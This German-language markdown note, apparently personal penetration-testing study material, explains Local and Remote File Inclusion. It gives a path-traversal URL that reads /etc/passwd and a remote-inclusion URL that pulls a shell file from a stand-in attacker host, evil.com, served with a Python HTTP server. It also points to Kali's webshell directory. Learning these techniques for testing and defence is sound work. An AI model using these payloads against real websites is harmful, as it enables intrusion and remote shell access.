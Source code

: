 # Local File Inclusion und Remote File Inclusion

## Links

- [File Inclusion - PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

---

## Local File Inclusion

### Basic 
- http://example.com/index.php?page=../../../etc/passwd \
Mit "../../../" wird durch das Dateisystem navigiert, um auf Dateien zuzugreifen, auf die der normale Webseitenuser nicht zugreifen sollte. \
Im Beispiel wird die Datei passwd ausgegeben.


## Remote File Inclusion

### Basic

- http://example.com/index.php?page=http://evil.com/shell.txt \
Dabei muss auf dem Rechner des Angreifers eine http Verbindung bereitgestellt werden.\
Dies ist z.B. mit Python **"python -m http.server <PORT>"** möglich. \
Der Parameter "page" des index.php Skripts ruft dann die Datei "shell.txt" auf dem Angreifer PC auf\
Ein gängiges Beispiel für eine solche Datei wie "shell.txt" wäre eine Remote Shell.\
--> Unter Kali Linux zufinden in: **/usr/share/webshells/**
